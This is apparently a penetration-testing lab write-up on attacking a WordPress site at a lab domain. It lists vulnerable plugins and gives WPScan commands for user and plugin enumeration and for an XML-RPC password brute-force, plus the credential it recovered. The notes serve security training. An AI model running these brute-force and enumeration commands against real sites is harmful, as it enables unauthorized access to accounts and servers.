 ## 🧠 Analysis & Next Steps

### 🛠 Vulnerabilities of Interest

* **wpDiscuz 7.0.4**: 🔥 *Unauthenticated RCE*
* **Mail Masta 1.0**:

  * 🐚 *Local File Inclusion*
  * 🐞 *SQL Injection*

### 🛡 Other Opportunities

* Exploit user enumeration via brute-force (XML-RPC or login page)
* Directory listings may expose sensitive files
* Consider fingerprinting theme/plugins not found in WPScan manually

---

# 🛠️ Attacking WordPress

## 🎯 Objective

Gain initial access to a WordPress-based web server by abusing weak credentials, misconfigurations, and known vulnerabilities in plugins/themes.


## 🔍 Step 1: Enumerate Users and Plugins

Tools like **WPScan** are used to enumerate:

* WordPress **version**
* Installed **plugins** & **themes**
* **Users**

Example WPScan command for enumeration:

```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate u,ap,vt
```

## 🚪 Step 2: Brute Force Login Credentials

### 📌 Method: `xmlrpc` (preferred for speed)

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

✅ Success:

```
Username: john
Password: firebird1
```
